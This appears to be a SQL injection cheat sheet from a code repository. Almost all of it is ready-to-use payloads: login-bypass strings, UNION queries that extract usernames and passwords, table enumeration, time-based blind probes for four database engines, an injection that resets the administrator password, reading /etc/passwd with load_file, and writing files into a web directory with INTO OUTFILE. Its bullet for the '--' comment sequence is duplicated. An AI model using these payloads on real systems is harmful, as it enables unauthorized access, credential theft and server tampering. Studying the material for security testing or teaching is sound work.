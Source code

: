 # SQL Injection Cheat Sheet

## Testing for Vulnerability

To determine if a web application is vulnerable to SQL injection, you can use the following payloads to analyze how the application processes SQL code:

- `'` : This single quote is used to terminate a string in SQL. If the application does not handle it properly, it can break the intended SQL query structure, leading to an error or unexpected behavior, indicating a potential vulnerability.
- `"` : Similar to the single quote, the double quote is used to terminate a string in SQL. If the application does not handle it properly, it can also break the SQL query structure, leading to an error or unexpected behavior.
- `--` : This sequence is used to comment out the rest of the SQL query. If the application does not properly handle input, using `--` can allow an attacker to ignore the rest of the query, potentially bypassing authentication or other checks.
- `--` : This is another comment sequence that can be used to ignore the rest of the SQL query. It functions similarly to the previous bullet point and can be used to bypass authentication or other checks if the application is vulnerable.


Example:
```sql
' OR '1'='1
```

## UNION-Based SQL Injection

To extract data from the database using UNION-based SQL injection, you can use the following query:

```sql
UNION SELECT username, password FROM users--
```

## Enumerating Tables

To enumerate tables in most databases, you can use the following query:

```sql
SELECT * FROM information_schema.tables
```

## Common SQL Injection Payloads

Here are some common SQL injection payloads that can be used to bypass login forms or extract data:

- `admin' --`
- `admin' #`
- `admin'/*`
- `' or 1=1--`
- `' or 1=1#`
- `' or 1=1/*`
- `') or '1'='1--`
- `') or ('1'='1--`

## SQL Injection in Login Forms

To exploit a login form, you can use the following payload:

```sql
examplename'; UPDATE users SET password='letmein' WHERE user='administrator'--
```

## Time-Based SQL Injection

### Testing for Time Delay

You can test for time delays to identify SQL injection vulnerabilities. Here are examples for different databases:

- **Oracle**:
```sql
dbms_pipe.receive_message(('a'),10)
```
- **Microsoft SQL Server**:
```sql
WAITFOR DELAY '0:0:10'
```
- **MySQL**:
```sql
SELECT sleep(10)
```
- **PostgreSQL**:
```sql
TrackingId=x'||pg_sleep(10)--
```

### Conditional Time Delays

You can test a single boolean condition and trigger a time delay if the condition is true:

- **Oracle**:
```sql
SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN 'a'||dbms_pipe.receive_message(('a'),10) ELSE NULL END FROM dual
```
- **Microsoft SQL Server**:
```sql
IF (YOUR-CONDITION-HERE) WAITFOR DELAY '0:0:10'
```
- **PostgreSQL**:
```sql
SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN pg_sleep(10) ELSE pg_sleep(0) END
```
- **MySQL**:
```sql
SELECT IF(YOUR-CONDITION-HERE, sleep(10), 'a')
```

## PostgreSQL Concatenation Example

To concatenate strings in PostgreSQL, you can use the following example:

```sql
GET /filter?category=Gifts'+UNION+SELECT+NULL,+Username+||+'*'+||+password+FROM+users-- HTTP/1.1
```

## Reading Files

To read files from the server using SQL injection, you can use the following query:

```sql
UNION SELECT NULL, load_file('/etc/passwd'), NULL, NULL, NULL#
```

Alternative format:
```sql
UNION+SELECT+NULL, load_file('/etc/passwd')--
```

## Uploading Files

To upload files to the server using SQL injection, you can use the following query:

```sql
UNION SELECT NULL, 'example example', NULL, NULL INTO OUTFILE '/var/www/mutillidae/example.txt'#
```

Alternative format:
```sql
UNION+SELECT+NULL, 'write1 example2'+INTO OUTFILE+'/var/www/mutillidae/example.txt'--
```